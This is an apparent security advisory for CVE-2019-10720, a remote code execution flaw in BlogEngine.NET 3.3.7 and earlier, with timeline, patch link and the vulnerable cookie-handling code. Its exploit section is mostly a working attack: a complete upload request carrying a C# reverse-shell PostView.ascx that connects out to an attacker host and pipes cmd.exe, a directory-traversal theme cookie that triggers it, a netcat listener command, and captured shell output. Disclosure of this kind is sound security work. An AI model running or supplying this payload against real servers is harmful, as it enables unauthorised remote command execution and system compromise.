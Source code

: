 A remote code execution (RCE) attack, CVE-2019-10720, exists on BlogEngine.NET versions 3.3.7 and earlier.  A user with privileges to add/upload files could upload a malicious `PostView.ascx` file and exploit a directory traversal in the **theme** cookie to trigger the RCE.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases/tag/v3.3.8.0>

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 17 Jun 2019

## Description

The application will use the **theme** cookie if the **theme** parameter is not set:

~~~{command="BlogEngine.Core/BlogSettings.cs"}
413         public string Theme
414         {
415             get
416             {
417                 var context = HttpContext.Current;
418                 if (context != null)
419                 {
420                     var request = context.Request;
421                     if (request.QueryString["theme"] != null)
422                     {
423                         return request.QueryString["theme"];
424                     }
425
426                     var cookie = request.Cookies[this.ThemeCookieName];
427                     if (cookie != null)
428                     {
429                         return cookie.Value;
430                     }
~~~

The **theme** cookie is vulnerable to a directory traversal; the **theme** cookie can be set to a folder that contains a malicious `PostView.ascx`, such as `.../../App_Data/files`.  The malicious code contained in `PostView.ascx` will be executed.

## Exploit

<https://github.com/irbishop/CVEs/blob/master/2019-10720/exploit.py>

A malicious file can be uploaded using `File Manager` in the application, `/api/upload?action=file`, or `/api/upload?action=filemgr`. In the following example `/api/upload?action=file` is used to upload the malicious `PostView.ascx` file:

<pagebreak></pagebreak>

~~~
POST /api/upload?action=file HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/plain
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: XXX
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------12143974373743678091868871063
Content-Length: 2085

-----------------------------12143974373743678091868871063
Content-Disposition: form-data; filename="PostView.ascx"

<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

		using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("$LHOST", $LPORT)) {
			using(System.IO.Stream stream = client.GetStream()) {
				using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
					streamWriter = new System.IO.StreamWriter(stream);

					StringBuilder strInput = new StringBuilder();

					System.Diagnostics.Process p = new System.Diagnostics.Process();
					p.StartInfo.FileName = "cmd.exe";
					p.StartInfo.CreateNoWindow = true;
					p.StartInfo.UseShellExecute = false;
					p.StartInfo.RedirectStandardOutput = true;
					p.StartInfo.RedirectStandardInput = true;
					p.StartInfo.RedirectStandardError = true;
					p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
					p.Start();
					p.BeginOutputReadLine();

					while(true) {
						strInput.Append(rdr.ReadLine());
						p.StandardInput.WriteLine(strInput);
						strInput.Remove(0, strInput.Length);
					}
				}
			}
		}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
		StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
			} catch (Exception err) { }
        }
    }
</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>

-----------------------------12143974373743678091868871063--
~~~

Open a  netcat listener, `nc -nlvp $LPORT`, and browse the application with the **theme** cookie set as `../../App_Data/files/2019/06/`, no authentication required.  The Code Execution triggers and opens a reverse shell:

~~~
GET / HTTP/1.1
Host: $LHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: theme=../../App_Data/files/2019/06;
Connection: close
Upgrade-Insecure-Requests: 1
~~~

~~~{command="nc -nlvp $LPORT"}
listening on [any] $LPORT ...
connect to [$LHOST] from (UNKNOWN) [$RHOST] 49822
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
ipconfig
C:\Windows\system32>ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
~~~
